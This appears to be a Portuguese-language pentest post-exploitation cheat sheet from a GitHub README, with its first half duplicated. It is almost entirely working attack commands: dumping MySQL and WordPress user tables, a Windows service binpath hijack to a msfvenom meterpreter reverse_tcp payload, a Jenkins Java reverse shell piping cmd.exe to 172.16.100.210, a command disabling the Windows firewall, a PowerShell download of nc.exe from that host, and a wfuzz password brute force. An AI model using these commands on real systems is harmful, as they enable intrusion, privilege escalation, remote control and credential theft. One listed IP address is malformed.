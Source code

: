# posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm

sudo base64 /root/flag.txt | base64 -d

acesschk.exe -uqmv .\tyranus-op 

sc config raxus-service obj=".\LocalSystem"

msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.100.210 lport=443 -f exe -o invasao.exe
sc config raxus-service binpath="C:\users\tyranus-op\invasao.exe"

service postgresql start

use multi/handler

set AutorunScript post/windows/manager/migrate/

# posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm

sudo base64 /root/flag.txt | base64 -d

acesschk.exe -uqmv .\tyranus-op 

sc config raxus-service obj=".\LocalSystem"

msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.100.210 lport=443 -f exe -o invasao.exe
sc config raxus-service binpath="C:\users\tyranus-op\invasao.exe"

service postgresql start

use multi/handler

set AutorunScript post/windows/manager/migrate/


wfuzz -c -z file,/usr/share/seclists/Passwords/Common-Credentials/best1050.txt --hs incorreta -d "x1_login=admin&x2_senha=FUZZ&entrar=Enviar" http://metasploitable.XXX/login/index.php 

JENKINS:



String host="172.16.100.210";
int port=8044;
String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


   def command = "cmd.exe /c netsh advfirewall set allprofile state off"
   def proc = command.execute()
   proc.waitFor()

   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
   
   ------------




powershell 2
   
$url = "http://172.16.100.210/nc.exe" 
$path = "nc.exe" 
if(!(Split-Path -parent $path) -or !(Test-Path -pathType Container (Split-Path -parent $path))) { 
$targetFile = Join-Path $pwd (Split-Path -leaf $path) 
} 
(New-Object Net.WebClient).DownloadFile($url, $path) 
$path




